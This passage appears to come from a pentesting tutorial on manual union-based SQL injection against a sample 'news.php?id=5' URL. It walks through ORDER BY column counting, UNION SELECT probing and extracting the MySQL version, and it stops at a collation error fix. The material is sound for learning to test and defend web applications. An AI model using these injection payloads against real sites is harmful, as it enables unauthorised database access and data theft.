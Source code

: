 {% hint style="success" %}
That means its vulnerable !
{% endhint %}

### Find the number of columns

To find number of columns you use statement **ORDER BY** (tells database how to order the result) so how to use it? Well just increment the number until you get an error.

```
http://$ip/news.php?id=5 order by 1/* <-- no error
http://$ip/news.php?id=5 order by 2/* <-- no error
http://$ip/news.php?id=5 order by 3/* <-- no error
http://$ip/news.php?id=5 order by 4/* <-- error (you get message like this Unknown column '4' in 'order clause' or something like that)
```

That means that the database has 3 columns, cause you get an error on 4.

### Check for UNION function

With union you can select more data in one SQL statement.

So you have:

```
http://$ip/news.php?id=5 union all select 1,2,3/* (you already found that number of columns are 3 in section 2). )
```

If that doesn't work or you get some error, then try:

```
http://$ip/news.php?id=5 union all select 1,2,3 -- - #note the dashes at the end
```

The dashes tells SQL not to process anything passed the 3, in the case above.

If you see some numbers on screen, i.e 1 or 2 or 3 then the UNION works!!

### Check for MySQL version

Lets say that you have number **2** on the screen, now to check for version

You replace the number 2 with **@@version or version()** and get something like **4.1.33-log or 5.0.45** or similar.

It should look like:

```
http://$ip/news.php?id=5 union all select 1,@@version,3/*
```

If you get an error:

{% hint style="danger" %}
"union + illegal mix of collations (IMPLICIT + COLLATIONS) ..."
{% endhint %}

you need is **convert()** function
